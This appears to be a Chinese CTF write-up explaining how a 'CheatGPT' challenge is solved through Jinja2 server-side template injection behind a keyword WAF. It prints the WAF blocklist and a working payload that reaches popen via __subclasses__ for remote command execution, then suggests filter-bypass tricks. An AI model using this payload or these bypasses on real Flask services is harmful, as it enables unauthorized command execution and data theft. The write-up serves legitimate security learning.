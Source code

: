 # CheatGPT

好像被有的同学误解成了 SQL 注入/提示词注入，实际上是一个有 WAF 的 SSTI（模板注入）。

观察这位假 GPT 的输出，会将你输入的内容在页面上重复显示一遍，这就有可能是一个模板注入。具体关于什么是模板注入可以自己搜博客学习，简单来说你的输入会被传给一个预先写好的 HTML 文件当中解析，你嵌入模板的渲染语句就可以访问到他的运行时环境（本题是 flask 的 Jinja2 模板上下文，一个语法上类 python 的上下文环境）从而实现「任意命令执行（RCE）」

首先需要解决的问题是知道这是一个什么模板引擎，有很多办法，你可以拿常见的模板渲染格式去测试，比如：`{{"7" * 7}}` ，也可以做一个简单信息搜集，例如很多 Web 服务会在 HTTP 响应头中写上服务器的一些 banner 信息：

![image-20240520165827034](CheatGPT.assets/image-20240520165827034.png)

F12 打开开发者工具，进入 Network 模块，刷新页面后该模块会记录所有的流量信息，在访问题目页面的响应头中能看到关键字是 Werkzeug+Python，那大概率是 flask+Jinja2，搜索相关 SSTI 的博客学习如何注入即可。

本题设置了一个 WAF，对所有请求参数和 POST 传入的 query 分别做了过滤：

```python
def waf_query(q):
    nop = [
        "\"", 
        "\'", 
        "+", 
        "join"   
           ]
    for elm in nop:
        if elm in q:
            return elm
    return None

def waf_args():
    nop = [
        "rm", 
        "echo", "<", ">", "export", "printenv", 
        "env",
        "proc", 
        "import"
        ]
    for v in request.args.values():
        for elm in nop:
            if elm in v:
                return elm
            
    for v in request.form.values():
        for elm in nop:
            if elm in v:
                return elm
    return None
```

为了降低难度将触发 WAF 的具体内容打印了出来（黑盒测试的 Web 在缺少 Fuzz 的情况下是很恶心人的），绕的手段也比较多，这里提供一种思路是用 flask 的 `request.args` 从请求参数中拿到字符串，利用"_wrap_close"类实现 RCE：

POST 访问：`http://IP:PORT/?cls=_wrap_close&cmd=set`，传参：

```python
query={%for c in [].__class__.__base__.__subclasses__()%}{%if request.args.cls == c.__name__ %}{{c.__init__.__globals__.popen(request.args.cmd).read()}}{%endif%}{%endfor%}
```

往 cmd 里输入命令就能执行，flag 在环境变量里，`env, export` 等被过滤了，还能用 set。也可以通过管道、编码或者反引号等方法绕过关键字的过滤。